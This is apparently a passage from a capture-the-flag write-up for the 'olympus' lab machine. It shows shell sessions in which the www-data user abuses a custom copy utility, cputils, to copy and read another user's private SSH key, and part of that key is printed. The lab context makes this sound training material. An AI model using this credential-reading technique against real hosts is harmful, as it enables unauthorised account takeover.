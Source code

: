 ```shell
www-data@olympus:/tmp$ find / -user "zeus" 2>/dev/null
/home/zeus
/home/zeus/zeus.txt
/home/zeus/user.flag
/home/zeus/.sudo_as_admin_successful
/home/zeus/.bash_logout
/home/zeus/.ssh
/home/zeus/snap
/home/zeus/.gnupg
/home/zeus/.local
/home/zeus/.local/share
/home/zeus/.bashrc
/home/zeus/.profile
/home/zeus/.cache
/usr/bin/cputils
/var/www/olympus.thm/public_html/~webmaster/search.php
/var/crash/_usr_bin_cp-utils.1000.crash
www-data@olympus:/tmp$ /usr/bin/cp
cp                         cpp
cpan                       cpp-9
cpan5.30-x86_64-linux-gnu  cputils
cpio
www-data@olympus:/tmp$ /usr/bin/cputils
  ____ ____        _   _ _
 / ___|  _ \ _   _| |_(_) |___
| |   | |_) | | | | __| | / __|
| |___|  __/| |_| | |_| | \__ \
 \____|_|    \__,_|\__|_|_|___/

Enter the Name of Source File: asd

Error Occurred!www-data@olympus:/tmp$
```

after execution it wants to have a source file and a target file. i thought i try to copy the private ssh key to a different location. and it worked.

```
Enter the Name of Source File: /home/zeus/.ssh/id_rsa

Enter the Name of Target File: /home/zeus/test.txt
```

i was able to read it and tried to log in as zeus.

```shell
www-data@olympus:/home/zeus$ cat test.txt
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABALr+COV2
NabdkfRp238WfMAAAAEAAAAAEAAAGXAAAAB3NzaC1yc2EAAAADAQABAAABgQChujddUX2i
WQ+J7n+PX6sXM/MA+foZIveqbr+v40RbqBY2XFa3OZ01EeTbkZ/g/Rqt0Sqlm1N38CUii2
eow4Kk0N2LTAHtOzNd7PnnvQdT3NdJDKz5bUgzXE7mCFJkZXOcdryHWyujkGQKi5SLdLsh
vNzjabxxq9P6HSI1RI4m3c16NE7yYaTQ9LX/KqtcdHcykoxYI3jnaAR1Mv07Kidk92eMMP
...
```
